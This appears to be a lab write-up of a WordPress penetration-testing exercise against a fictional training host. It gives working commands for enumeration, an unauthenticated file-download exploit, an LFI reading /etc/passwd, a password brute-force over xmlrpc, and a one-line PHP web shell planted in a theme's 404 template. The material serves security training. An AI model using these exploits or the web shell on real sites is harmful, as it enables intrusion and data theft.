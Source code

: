 # Hacking WordPress

### Scenario

You have been contracted to perform an external penetration test against the company `INLANEFREIGHT` that is hosting one of their main public-facing websites on WordPress.

Enumerate the target thoroughly using the skills learned in this module to find a variety of flags. Obtain shell access to the webserver to find the final flag.

First things first, make sure to configure your /etc/hosts.

#### Identify the WordPress version number.

```bash
curl -s -X GET http://blog.inlanefreight.local | grep '<meta name="generator"'
```

<figure><img src="../../.gitbook/assets/image (319).png" alt=""><figcaption></figcaption></figure>

Identify the WordPress theme in use.

{% code overflow="wrap" %}
```bash
curl -s -X GET http://blog.inlanefreight.local | sed 's/href=/\n/g' | sed 's/src=/\n/g' | grep 'themes' | cut -d"'" -f2
```
{% endcode %}

<figure><img src="../../.gitbook/assets/image (320).png" alt=""><figcaption></figcaption></figure>

Submit the contents of the flag file in the directory with directory listing enabled.

I consider a manual approach, and manually open the /wp-includes and /wp-content directories.&#x20;

<figure><img src="../../.gitbook/assets/image (321).png" alt=""><figcaption></figcaption></figure>

Identify the only non-admin WordPress user. (Format: \<first-name> \<last-name>)

For this question I used wpscan and i successful enumerate 3 users

```bash
wpscan --url http://blog.inlanefreight.local --enumerate --api-token <API_STRING>
```

<figure><img src="../../.gitbook/assets/image (322).png" alt=""><figcaption></figcaption></figure>

Use a vulnerable plugin to download a file containing a flag value via an unauthenticated file download.

It took me a bit to find the exploit. The wpscan detected several vulnerable plugins, but none said something specific about _**unauthenticated file download**_.&#x20;

<figure><img src="../../.gitbook/assets/image (323).png" alt=""><figcaption></figcaption></figure>

But this line caught my attention and decided to open the highlighted URL above

<figure><img src="../../.gitbook/assets/image (324).png" alt=""><figcaption></figcaption></figure>

It has the CVE-2019-19985 mentioned. If you lookup on Google you'll find the exploit easilly.

{% code overflow="wrap" %}
```bash
curl 'http://blog.inlanefreight.local/wp-admin/admin.php?page=download_report&report=users&status=all'
```
{% endcode %}

<figure><img src="../../.gitbook/assets/image (325).png" alt=""><figcaption></figcaption></figure>

What is the version number of the plugin vulnerable to an LFI?

If you use wpscan, just look up for "LFI" :smile:

Use the LFI to identify a system user whose name starts with the letter "f".

You can find the reference exploit [here](https://www.exploit-db.com/exploits/44340).

{% code overflow="wrap" %}
```bash
http://blog.inlanefreight.local/wp-content/plugins/site-editor/editor/extensions/pagebuilder/includes/ajax_shortcode_pattern.php?ajax_path=/etc/passwd
```
{% endcode %}

<figure><img src="../../.gitbook/assets/image (326).png" alt=""><figcaption></figcaption></figure>

Obtain a shell on the system and submit the contents of the flag in the /home/erika directory

Start by finding the password for the user erika.

{% code overflow="wrap" %}
```bash
wpscan --password-attack xmlrpc -U erika -P rockyou.txt --url http://blog.inlanefreight.local
```
{% endcode %}

Authenticate with the password we just found.

<figure><img src="../../.gitbook/assets/image (327).png" alt=""><figcaption></figcaption></figure>

Then go to Appearence > Theme Editor.

<figure><img src="../../.gitbook/assets/image (328).png" alt=""><figcaption></figcaption></figure>

Then select Theme Seventeen > 404 Template > enter the PHP code like is showing on the image.

```php
<?php

system($_GET['cmd']);	
```

Then scroll to the bottom of the page and click on **Update File**.

We can test if its working with the following line:

{% code overflow="wrap" %}
```bash
curl -X GET "http://blog.inlanefreight.local/wp-content/themes/twentyseventeen/404.php?cmd=id"

```
{% endcode %}

<figure><img src="../../.gitbook/assets/image (329).png" alt=""><figcaption></figcaption></figure>

And it's working. Now we just have to go the erika's home directory.

{% code overflow="wrap" %}
```bash
curl -X GET "http://blog.inlanefreight.local/wp-content/themes/twentyseventeen/404.php?cmd=cat%20/home/erika/d0ecaeee3a61e7dd23e0e5e4a67d603c_flag.txt"
```
{% endcode %}

<figure><img src="../../.gitbook/assets/image (330).png" alt=""><figcaption></figcaption></figure>

And we got the last flag!

